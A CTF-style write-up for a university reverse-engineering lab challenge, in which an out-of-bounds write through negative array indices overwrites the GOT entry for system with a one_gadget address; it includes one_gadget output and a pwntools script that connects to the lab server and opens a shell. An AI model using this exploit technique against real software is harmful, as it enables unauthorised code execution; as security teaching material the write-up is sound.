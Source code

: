```yaml
---
layout: post
title:  UNIBUC_RE_lab_7_task_2
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: This challenge is a challenge where we can modify bytes in memory using indices.
categories:
- UNIBUC RE
---
```


This challenge is a challenge where we can modify bytes in memory using indices.

Security of the binary:
```
Not stripped
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```
Vulnerable function is :

![](/assets/img/2022-09-02-15-45-45.png)


The exploit is done by negative indices, we use onegadget to get the gadget so we get system:
```
one_gadget libc.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xef6c4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf0567 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
Find some call to modify that is not called every time:
![](/assets/img/2022-09-02-16-00-50.png)
system call is only done when we are finished modifying so we will modify system got address.
0x4038-system
0x4080-array
difference is 72 so we modify offsets 72 and 71 and we try 16 times in order for our exploit to be successful because of random addresses (the last 3 nibbles are ok)
```
from pwn import *

io=remote('45.76.91.112', 10072)
#io = process("./task02")

io.recvuntil("Do you like the")
io.sendline('N')

io.sendline( '-72 22')
io.recvuntil("Finished")
io.sendline( 'N')
io.recvuntil("modify")


#gdb.attach(io,"break *vuln+253")
io.sendline( '-71 82')
io.sendline( 'Y')


io.sendline('ls')

io.interactive()
```